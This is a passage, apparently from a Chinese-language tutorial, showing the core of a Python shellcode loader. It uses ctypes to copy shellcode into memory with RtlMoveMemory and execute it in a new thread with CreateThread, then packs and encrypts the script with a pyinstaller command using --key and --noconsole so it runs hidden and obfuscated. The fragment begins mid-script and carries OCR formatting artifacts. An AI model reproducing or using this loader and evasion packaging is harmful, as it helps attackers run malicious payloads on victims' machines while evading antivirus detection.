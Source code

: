 *\# 放入shellcode*

buf **= (**ctypes**.**c_char **\***
len**(**shellcode**)).**from_buffer**(**shellcode**)**

ctypes**.**windll**.**kernel32**.**RtlMoveMemory**(**

ctypes**.**c_uint64**(**ptr**),**

buf**,**

ctypes**.**c_int**(**len**(**shellcode**))**

**)**

*\# 创建一个线程从shellcode防止位置首地址开始执行*

handle **=** ctypes**.**windll**.**kernel32**.**CreateThread**(**

ctypes**.**c_int**(0),**

ctypes**.**c_int**(0),**

ctypes**.**c_uint64**(**ptr**),**

ctypes**.**c_int**(0),**

ctypes**.**c_int**(0),**

ctypes**.**pointer**(**ctypes**.**c_int**(0))**

**)**

*\# 等待上面创建的线程运行完*

ctypes**.**windll**.**kernel32**.**WaitForSingleObject**(**ctypes**.**c_int**(**handle**),**ctypes**.**c_int**(-1))**

在这里直接使用以下参数进行加密混淆：  
​

pyinstaller -F --key crow123321 --noconsole py_shellcode.py  
​

其中--key之后的字符可以自定义  
​

![文本 描述已自动生成](media/48b6a331b040165323b60a9373472af6.png)
